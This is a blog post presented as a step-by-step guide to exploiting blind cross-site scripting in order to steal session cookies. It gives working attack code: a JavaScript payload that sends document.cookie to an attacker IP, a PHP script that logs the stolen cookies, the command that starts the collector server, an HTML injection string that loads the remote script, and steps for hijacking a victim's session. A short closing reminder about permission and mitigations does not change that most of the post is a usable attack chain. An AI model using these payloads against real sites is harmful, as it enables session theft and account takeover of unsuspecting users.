 ```yaml
---
title: "XSS 101 - Blind XSS Step By Step Guide"
seoDescription: "Learn how to exploit blind XSS vulnerabilities to steal cookies using a detailed, real-world step-by-step guide"
datePublished: Tue May 07 2024 07:13:53 GMT+0000 (Coordinated Universal Time)
cuid: clvw218uc000009l5awln1yt5
slug: xss-101-blind-xss-step-by-step-guide
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1715066028086/a6c86cd1-f643-4939-80c4-0416964df7b2.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1715066024418/53bdb807-f379-4def-87f4-dced4d309899.png

---
```


Introduction: In this blog post, we'll walk through the process of exploiting a blind XSS vulnerability to steal cookies from a victim's browser. We'll use a real-world example to demonstrate each step, explaining which machine and IP address is involved at each stage.

Prerequisites:

* Two machines:
    
    * Attacker Machine (Pwn Machine): This is the machine you'll use to set up the malicious server and receive the stolen cookies. Let's assume its IP address is `10.10.15.213`.
        
    * Victim Machine: This is the machine where the vulnerable web application (Site A) is running. We'll assume it's accessible at `http://siteA.com`.
        

Step 1: Set up the Malicious Server (Attacker Machine - 10.10.15.213)

1. On the attacker machine, create a new directory to host your malicious scripts. For example, `/var/www/html/malicious`.
    
2. Inside the `malicious` directory, create two files: `script.js` and `index.php`.
    

Step 2: Create the Malicious JavaScript Payload (Attacker Machine - 10.10.15.213)

1. Open the `script.js` file on the attacker machine.
    
2. Add the following JavaScript code to `script.js`:
    

This code creates a new image object and sets its `src` attribute to a URL that points to the `index.php` script on the attacker machine, with the victim's cookies appended as a query parameter.

````sql
```jsx
enew Image().src='<http://10.10.15.213:81/index.php?c='+document.cookie>;

```
````

Step 3: Create the PHP Script to Receive Stolen Cookies (Attacker Machine - 10.10.15.213)

1. Open the `index.php` file on the attacker machine.
    
2. Add the following PHP code to `index.php`:
    

This script checks if the `c` parameter is present in the GET request, retrieves its value (the stolen cookie), appends it to a log file named `stolen_cookies.txt`, and prints the stolen cookie value.

````sql
```php
<?php
if (isset($_GET['c'])) {
    $stolenCookie = $_GET['c'];
    $logFile = 'stolen_cookies.txt';
    file_put_contents($logFile, $stolenCookie . "\\n", FILE_APPEND);
    echo "Stolen Cookie: " . $stolenCookie;
}
?>

```
````

Step 4: Start the Malicious Server (Attacker Machine - 10.10.15.213)

1. On the attacker machine, navigate to the `malicious` directory.
    
2. Start a PHP web server by running the following command:
    

This starts a PHP server listening on port 81 of the attacker machine.

````sql
```
Copy codephp -S 10.10.15.213:81

```
````

Step 5: Inject the Malicious Payload (Victim Machine - [http://siteA.com](http://siteA.com))

1. On the victim machine, navigate to the vulnerable web application (Site A) in a web browser.
    
2. Identify the vulnerable input field where you discovered the blind XSS vulnerability.
    
3. Inject the following malicious payload into the vulnerable field:
    

This payload closes any preceding tags, then includes a `<script>` tag that loads the `script.js` file from the attacker's machine.

````sql
```html
'><script src=http://10.10.15.213:81/script.js></script>

```
````

Step 6: Trigger the XSS Payload (Victim Machine - [http://siteA.com](http://siteA.com))

1. Submit the form or perform the necessary action to trigger the XSS payload on Site A.
    
2. The victim's browser will execute the injected script, which loads and executes the `script.js` file from the attacker's machine.
    

Step 7: Receive the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, monitor the PHP server logs.
    
2. When the victim's browser executes the `script.js` file, it sends a request to the `index.php` script on the attacker's machine, including the stolen cookies as a query parameter.
    
3. The `index.php` script logs the stolen cookies in the `stolen_cookies.txt` file and prints them in the server response.
    

Step 8: Verify the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, open the `stolen_cookies.txt` file.
    
2. You should see the stolen cookies logged in the file, along with the victim's IP address.
    
3. You can also check the server logs to see the printed stolen cookie value.
    

Step 9: Use the Stolen Cookies (Attacker Machine - 10.10.15.213)

1. On the attacker machine, open a web browser.
    
2. Install a cookie editor extension or use the browser's developer tools to modify cookies.
    
3. Navigate to the vulnerable web application (Site A) in the browser.
    
4. Replace the existing cookies with the stolen cookies obtained from the victim.
    
5. Refresh the page, and you should be logged in as the victim user, effectively hijacking their session.
    

Conclusion: By following these steps, you can exploit a blind XSS vulnerability to steal cookies from a victim's browser. Remember to use this knowledge responsibly and only on systems you have permission to test.

It's crucial to validate and sanitize user input on the server-side to prevent XSS vulnerabilities. Implementing proper input validation, output encoding, and Content Security Policy (CSP) can help mitigate the risk of XSS attacks.

I hope this step-by-step guide helps you understand the process of exploiting blind XSS and stealing cookies. Stay safe and happy hacking!